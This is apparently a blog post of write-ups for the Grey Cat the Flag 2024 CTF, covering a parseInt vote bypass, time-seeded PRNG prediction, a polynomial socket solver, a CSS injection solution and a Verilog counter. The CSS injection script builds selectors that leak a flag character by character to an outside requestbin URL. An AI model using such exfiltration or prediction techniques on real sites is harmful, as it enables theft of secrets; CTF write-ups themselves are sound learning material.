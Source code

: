 ```yaml
---
title: "Write-ups for Grey Cat the Flags CTF 2024"
date: 2024-04-21T14:46:00+0800
tags: ["writeups"]
author: "Shang En"
showToc: false
TocOpen: false
draft: false
hidemeta: false
comments: true
description: "I'm rusty..."
ShowBreadCrumbs: true
ShowPostNavLinks: true
ShowRssButtonInSectionTermList: true
UseHugoToc: true
---
```


## Greyctf Survey

Refer to: [MDN](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/parseInt)

> In general, it's a bad idea to use parseInt() on non-strings, especially to use it as a substitution for Math.trunc(). It may work on small numbers:
> ```js
> parseInt(15.99, 10); // 15
> parseInt(-15.1, 10); // -15
> ```
> However, it only happens to work because the string representation of these numbers uses basic fractional notation (`"15.99"`, `"-15.1"`), where `parseInt()` stops at the decimal point. Numbers greater than or equal to 1e+21 or less than or equal to 1e-7 use exponential notation (`"1.5e+22"`, `"1.51e-8"`) in their string representation, and `parseInt()` will stop at the `e` character or decimal point, which always comes after the first digit. This means for large and small numbers, `parseInt()` will return a one-digit integer:
> ```js
> parseInt(4.7 * 1e22, 10); // Very large number becomes 4
> parseInt(0.00000000000434, 10); // Very small number becomes 4
> ```


### Relevant Source Code

```js
app.post('/vote', async (req, res) => {
    const {vote} = req.body;
    if(typeof vote != 'number') {
        return res.status(400).json({
            "error": true,
            "msg":"Vote must be a number"
        });
    }
    if(vote < 1 && vote > -1) {
        score += parseInt(vote);
        if(score > 1) {
            score = -0.42069;
            return res.status(200).json({
                "error": false,
                "msg": config.flag,
            });
        }
        return res.status(200).json({
            "error": false,
            "data": score,
            "msg": "Vote submitted successfully"
        });
    } else {
        return res.status(400).json({
            "error": true,
            "msg":"Invalid vote"
        });
    }
})
```

### Solution

`POST` `{"vote": 0.00000000000434}` to `/vote`

## All About Timing

Since the PRNG is seeded with the current time, we just have to seed our PRNG with the current time and connect to the server and call `random.randint`.

```py
import time
import random
import socket

random.seed(int(time.time()))

n = random.randint(1000000000000000, 10000000000000000 - 1)

# Send the number to the client via socket
# nc challs.nusgreyhats.org 31111

HOST = "challs.nusgreyhats.org"
PORT = 31111

with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
    s.connect((HOST, PORT))
    data = s.recv(1024)
    s.sendall(f"{n}\n".encode())
    data = s.recv(1024)


print("Received", repr(data))
```

## Poly Playground

This challenge is an exercise in socket programming and regular expressions.

### Solution

```py
import socket
import re

HOST = "challs.nusgreyhats.org"
PORT = 31113
PATTERN = "Roots:\s*((?:-?\d+,?\s*)+)"


def polynomial_from_roots(roots):
    # For a single root, the polynomial is (x - root), hence coefficients [1, -root]
    # Coefficients of the resulting polynomial, starting as 1 (for x^0)
    coeffs = [1]

    for root in roots:
        # Current root to process, start with x - root = (1)x + (-root)
        current = [1, -root]
        # Temporary new coefficients, initialized to zero and length of (len(coeffs) + len(current) - 1)
        new_coeffs = [0] * (len(coeffs) + 1)

        # Multiply out the polynomials using the distributive property (convolution)
        for i in range(len(coeffs)):
            for j in range(len(current)):
                new_coeffs[i + j] += coeffs[i] * current[j]

        # Update coeffs to new_coeffs
        coeffs = new_coeffs

    return coeffs


with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
    s.connect((HOST, PORT))
    data = s.recv(4096)
    data = data.decode().strip()
    match = re.search(PATTERN, data)
    roots = [int(match.group(1))]
    print("Roots:", roots)
    results = polynomial_from_roots(roots)
    results = [str(result) for result in results]
    print("Results:", ",".join(results))
    s.sendall(str(",".join(results)).encode())
    s.sendall(b"\n")

    while True:
        data = s.recv(4096)
        print(data.decode())
        data = data.decode().strip()
        match = re.search(PATTERN, data)
        roots = str(match.group(1)).split(",")
        roots = [int(root) for root in roots]
        print("Roots:", roots)
        results = polynomial_from_roots(roots)
        results = [str(result) for result in results]
        print("Results:", ",".join(results))
        s.sendall(str(",".join(results)).encode())
        s.sendall(b"\n")
```

## Beautiful Styles

Classic [CSS Injection Attack](https://book.hacktricks.xyz/pentesting-web/xs-search/css-injection).

### Solution

```py
# Digits, uppercase letters
# As given in the challenge description
CHARSET = "0123456789ABCDEFGHIJKLMNOPQRSTUVWXYZf"

output = ""

for c in CHARSET:
    text = f"""
input[id=flag][value^="grey{{X5S34RCH1fY0UC4NF1ND1T{c}"]{{ # Update this as you find each char through the requestbin
    background-image: url(https://en9qepifcn9k.x.pipedream.net/{c});
}}
    """

    output += text

with open("output.txt", "w") as f:
    f.write(output)
```

## Verilog Count

We are asked to write a Verilog program for the Icarus Verilog simulator. We are not allowed to use conditionals (`if`, `else`) and addition (`+`) or ternary operators (`?`).

But we are allowed to use the subtraction (`-`) operator.

The predefined testbench setup requires us to have an input clock `clk` and output 32 bits.

### Solution

```verilog
module counter(
    input clk,
    output reg [31:0] result
);

    reg [31:0] next_count;

    initial begin
        result = 32'd0;
    end

    always @(posedge clk) begin
        result <= result - (-1);
    end

endmodule
```
